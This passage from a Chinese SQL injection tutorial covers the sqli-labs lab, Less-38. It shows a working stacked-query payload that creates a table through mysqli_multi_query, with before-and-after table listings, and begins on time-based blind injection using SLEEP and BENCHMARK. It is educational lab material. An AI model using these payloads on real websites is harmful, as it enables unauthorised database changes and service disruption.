 此处正是使用 mysqli_multi_query 函数实现的多语句查询。我们可以尝试插入另一条语句来创建表：

```sql
http://localhost/Less-38?id=1';create table sqli like users;
```

执行前的表：

```java
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| uagents            |
| users              |
+--------------------+
4 rows in set (0.00 sec)
```

执行后，成功创建 sqli 表，说明第二条语句执行成功：

```java
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| sqli               |
| uagents            |
| users              |
+--------------------+
5 rows in set (0.00 sec)
```

#### 基于时间延迟盲注

基于时间延迟盲注是通过时间延迟来判断是否存在 SQL 注入的常用方法，是用于无任何错误回显情况下的盲注。对于正确语句和错误语句都返回相同内容时也可以使用，所以它的适用范围相对广一些。
> 注意：在实际测试过程中，特别是线上业务测试，要避免使用过长时间的延时，否则会影响业务的正常运行。换句话说，能够延时注入就基本代表可以去网站进行拒绝服务攻击。

在 MySQL 常用的延时注入方法中，比较实用的有以下 3 种。

（1）**SLEEP(duration)**：该函数用于休眠，起到延时操作的作用，其参数以秒为单位。

```java
mysql> select sleep(5);
+----------+
| sleep(5) |
+----------+
|        0 |
+----------+
1 row in set (5.00 sec)
```

（2）**BENCHMARK(count,expr)**：重复计算 expr 表达式 count 次。
